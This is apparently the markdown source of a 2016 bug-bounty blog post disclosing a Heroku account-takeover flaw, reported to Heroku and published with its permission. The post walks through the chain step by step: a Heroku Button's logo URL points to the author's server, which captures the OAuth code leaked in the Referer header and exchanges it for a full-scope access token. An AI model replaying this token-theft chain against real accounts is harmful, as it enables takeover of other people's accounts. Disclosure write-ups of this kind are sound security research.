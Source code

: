 ```yaml
---
layout: post
title: "Taking over Heroku accounts"
---
```


_This is the first time I'm proud of a vulnerability I find._

Context
======
<a href="https://www.heroku.com/" target="_blank">Heroku</a> has a feature called <a href="https://elements.heroku.com/buttons" target="_blank">Buttons</a>, which "let you one-click provision, configure and deploy third party components, libraries and pattern apps".
You can notice the button on Github like here: <a href="https://github.com/ParsePlatform/parse-server-example" target="_blank">https://github.com/ParsePlatform/parse-server-example</a>. In this case, when you click on <img src="https://www.herokucdn.com/deploy/button.svg" height="20">, you are redirected to <a href="https://dashboard.heroku.com/new?button-url=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example" target="_blank">https://dashboard.heroku.com/new?button-url=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example</a>.

Anyone can create a Button: <a href="https://devcenter.heroku.com/articles/heroku-button" target="_blank">https://devcenter.heroku.com/articles/heroku-button</a>. 

I created a Button <a href="https://github.com/esevece/heroku_test" target="_blank">https://github.com/esevece/heroku_test</a> that only includes the required file `app.json`. Because `app.json` is the file from where Heroku gets the information about the Button.

I tried injecting HTML attributes and tags in `app.json` to achieve XSS, but the special characters are being escaped in the client side (if you can do it, <a href="https://bugcrowd.com/heroku" target="_blank">report it!</a>). However, I noticed that I can set the URL of the `"logo"` to any value. This URL is used as the `src` of an `<img>` created when _https://dashboard.heroku.com/new_ is loaded.

When using `<img>`s the `Referer` header is sent with the URL that requested the image as the value, which allows the "image" to capture this URL in the server-side. I was only able to capture the `Referer` from a different domain using Firefox, Safari, Internet Explorer and Edge, but not using Chrome.

_More ways to leak HTTP requests: <a href="https://github.com/cure53/HTTPLeaks" target="_blank">https://github.com/cure53/HTTPLeaks</a>._

Vulnerability
======
What I had until now was that when I load <a href="https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value" target="_blank">https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value</a>, `<img src="https://avatars0.githubusercontent.com/u/1294580?v=3&amp;s=200" class="">` is created and the browser makes a request to <a href="https://avatars0.githubusercontent.com/u/1294580?v=3&amp;s=200" target="_blank">https://avatars0.githubusercontent.com/u/1294580?v=3&s=200</a> with the header `Referer: https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value`. But I didn't have any critical parameter+value in the URL. 

I played with <a href="https://devcenter.heroku.com/articles/oauth" target="_blank">OAuth</a> and the applications owned by Heroku, with the intention to point the __redirect_uri__ to _https://dashboard.heroku.com/new?template=..._ -- where I could leak the `Referer` -- without success.

I don't remember when, but I noticed that a parameter __code__ is added to _https://dashboard.heroku.com/[path_requested]_ after authentication. The value of this parameter is sent to an endpoint which doesn't have <a href="https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)" target="_blank">CSRF</a> protection and returns a JSON response including an `"access_token"` with "global" scope. This "global" scope allows you to do anything with the account using the <a href="https://api.heroku.com" target="_blank">API</a>! However I couldn't change the password or the email of the account, until... [to be continued :smile:]

Attack
======
Only worked if the user was already authenticated.

1. Send user to

        https://longboard.heroku.com/login?state=https%3A%2F%2Fdashboard.heroku.com%2Fnew%3Ftemplate%3Dhttps%253A%252F%252Fgithub.com%252Fesevece%252Fheroku_test

    ![1]({{ site.github.url }}/screenshots/2016-06-01-1.png)

2. User is redirected to 

        https://id.heroku.com/oauth/autorize?client_id=....
    
    ![2]({{ site.github.url }}/screenshots/2016-06-01-2.png)
    ![3]({{ site.github.url }}/screenshots/2016-06-01-3.png)

3. User is redirected to

        https://longboard.heroku.com/auth/heroku/callback?code=....

    ![4]({{ site.github.url }}/screenshots/2016-06-01-4.png)
    ![5]({{ site.github.url }}/screenshots/2016-06-01-5.png)

4. And finally, the user is redirected to

        https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2Fesevece%2Fheroku_test&code=...

    ![6]({{ site.github.url }}/screenshots/2016-06-01-6.png)
    ![7]({{ site.github.url }}/screenshots/2016-06-01-7.png)

5. Once the page loads, a request is made to the Github API to get the file __app.json__

        https://api.github.com/repos/esevece/heroku_test/contents/app.json?ref=master

    ![8]({{ site.github.url }}/screenshots/2016-06-01-8.png)
    ![9]({{ site.github.url }}/screenshots/2016-06-01-9.png)

6. The `<img src="https://u00f1.xyz/heroku/poc.php">` is created and the "image" is loaded, sending the __code__ in the `Referer`
    ![10]({{ site.github.url }}/screenshots/2016-06-01-10.png)

7. My file <a href="{{ site.github.url }}/code/2016-06-01-poc.php" target="_blank">poc.php</a> captures the `Referer`, extracts the __code__ and makes a POST request to 

        https://longboard.heroku.com/login/token

    with the value of the parameter __password__ set to the value of __code__
    ![11]({{ site.github.url }}/screenshots/2016-06-01-11.png)

8. <a href="https://github.com/esevece/esevece.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> takes the `"access_token"` from the last response and makes a GET request to 

        https://api.heroku.com/account

    with the header `Authorization:` set to `Bearer [the_access_token]`
    ![12]({{ site.github.url }}/screenshots/2016-06-01-12.png)

9. <a href="https://github.com/esevece/esevece.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> takes the `"email"` from the last response and sends an email to the address
    ![13]({{ site.github.url }}/screenshots/2016-06-01-13.png)

Art Attack
======
After reporting the vulnerability to Heroku, <a href="https://twitter.com/ITSecurityguard" target="_blank">Patrik</a> from <a href="https://bugcrowd.com/" target="_blank">Bugcrowd</a> asked me to do whatever I could with his Heroku account. So, I started to look at what I could do and noticed that I couldn't change the email or password of his account. 

I kept looking for ways to really take over his account, until I decided to try to use his __access_token__ (that I had taken using the attack) as his password, and it worked! So, I changed his email.

Thanks
======
To <a href="https://www.heroku.com/" target="_blank">Heroku</a> for allow me to write about this vulnerability. 
To <a href="https://twitter.com/ITSecurityguard" target="_blank">Patrik</a> for push me to do something really bad with the bug.

_If something is not correct or well explained, let me know. Maybe is because of my ignorance, my poor English or because I missed something._